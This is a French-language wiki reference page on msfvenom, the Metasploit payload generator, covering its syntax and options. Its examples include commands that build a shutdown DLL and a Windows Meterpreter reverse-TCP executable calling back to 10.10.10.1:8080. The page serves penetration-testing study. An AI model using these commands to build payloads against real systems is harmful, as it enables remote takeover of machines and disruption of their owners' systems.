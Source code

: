 ```yaml
---
title: msfvenom
description: Permet de générer des charges utiles (payloads) de toutes sortes
published: true
date: 2025-05-04T14:54:46.907Z
tags: outil, linux
editor: markdown
dateCreated: 2024-07-15T20:08:55.994Z
---
```


# Introduction

msfvenom est un outil de la suite Metasploit, cet outil permet de générer des charges utiles (payloads) de toutes sortes.

> La suite Metasploit est disponible au téléchargement ici: https://github.com/rapid7/metasploit-framework
> {.is-info}

# Syntaxe

`msfvenom -p [type de payload] [variable=valeur] -f [format] -o [fichier de sortie] [options]`

# Options

| Option                            | Description                                                                                                         |
| --------------------------------- | ------------------------------------------------------------------------------------------------------------------- |
| `-l [type]`                       | Liste tous les modules disponibles pour le type indiqué (paylods,encoders,nops,platforms,archs,encrypt,formats,all) |
| `-p [type de paylaod]`            | Spécifie le payload à utiliser                                                                                      |
| `--list-options`                  | Affiche les options disponibles avec le payload sélectionné                                                         |
| `-f [format]`                     | Spécifie le format à utiliser                                                                                       |
| `-e [encodeur]`                   | Spécifie l'encodeur à utiliser                                                                                      |
| `--service-name [nom]`            | Spécifie le nom du service lorsqu'un binaire de service est généré                                                  |
| `--smallest [nom]`                | Génere le payload le plus petit possible avec tous les encodeurs disponibles                                        |
| `--encrypt [type de chiffrement]` | Spécifie le type de chiffrement utilisé                                                                             |
| `--encrypt-key [clé]`             | Clé à utiliser avec le chiffrement                                                                                  |
| `-a [architecture]`               | Spécifie l'architecture souhaitée pour la génération du payload et l'encodage                                       |
| `-o [sortie]`                     | Sauvegarde le payload vers un fichier                                                                               |

# Exemples

Liste les payloads disponibles

`msfvenom -l payloads`

Utilise le payload windows/x64/exec avec comme argument cmd='shutdown /s', génere un fichier dll et l'exporte vers shutdown.dll

`msfvenom -p windows/x64/exec cmd='shutdown /s' -f dll -o shutdown.dll`

Utilise le payload windows/meterpreter/reverse_tcp avec comme argument LHOST=10.10.10.1 et LPORT=8080, génere un fichier exe et l'exporte vers reverse.exe

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=8080 -f exe -o reverse.exe`
